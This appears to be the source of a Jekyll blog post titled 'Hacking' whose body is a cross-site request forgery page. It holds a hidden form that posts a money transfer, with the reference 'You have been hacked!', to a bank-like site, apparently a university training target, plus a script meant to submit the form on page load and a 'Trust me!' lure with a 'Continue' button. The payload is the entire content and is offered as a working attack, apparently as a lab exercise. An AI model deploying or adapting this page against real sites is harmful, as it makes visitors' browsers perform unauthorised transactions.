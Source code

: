 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<iframe style="display:none" name="csrf-frame"></iframe>
<form action="https://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="500">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
	<!--<script>document.getElementById("TransactionTransferForm").submit()</script>-->
</div>
<script>document.getElementById("csrf-form").submit()</script>

<input class="btn btn-primary" type="submit" value="Continue">
</form>


	

****
